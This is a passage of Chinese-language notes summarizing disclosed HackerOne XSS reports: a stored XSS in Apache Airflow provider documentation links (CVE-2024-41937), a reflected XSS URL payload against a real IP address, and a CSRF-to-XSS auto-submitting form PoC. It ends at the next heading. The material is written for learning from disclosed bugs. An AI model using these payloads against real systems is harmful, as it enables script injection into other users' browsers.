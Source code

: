 ### 15、Apache Airflow的XSS供应链攻击 -> CVE

[Internet Bug Bounty | Report #2677187 - CVE-2024-41937: Apache Airflow: Stored XSS Vulnerability on provider link | HackerOne](https://hackerone.com/reports/2677187)

**Apache Airflow**：

	是一个开源的 **工作流自动化调度平台**，用于以编程方式编写、调度和监控任务流程；在里面有一个**Apache Airflow 的 Provider 文档链接功能**。

#### 复现：

1. 攻击者创建一个恶意的 Airflow Provider（数据连接插件），并在其文档链接中嵌入 XSS 代码，例如：

   ```
   # 恶意 Provider 的 setup.py
   documentation_url = 'javascript:alert(document.domain)'
   ```

2. **管理员安装 Provider**
   运维人员将恶意 Provider 安装到 Airflow 服务器。

3. **用户触发 XSS**
   当用户在 Airflow Web UI 中点击该 Provider 的文档链接时，恶意脚本在用户浏览器中执行。

### 16、无过滤RXSS

[MTN Group | Report #1799197 - Reflected cross site scripting (XSS) attacks Reflected XSS attacks, | HackerOne](https://hackerone.com/reports/1799197)

payload:

```
 https://102.176.160.119:10443/remote/error?errmsg=--><script>alert（document.domain）</script>
```

### 17、无过滤的RXSS | POST参数 | CSRF->XSS

[U.S. Dept Of Defense | Report #2670521 - XSS found for https://█████████ | HackerOne](https://hackerone.com/reports/2670521)

POC:

```html
<html>
<body>
<script>
	window.onload = function(){document.forms['XSS'].submit();}
</script>
	<form id='XSS' action='https://█████████/web/guest/search' method='post'>
		<input type='text' name='query' value="'};alert('XSS');var x={y:'">
	</form>
</body>
</html>
```

### 18、标签大小写绕过的RXSS
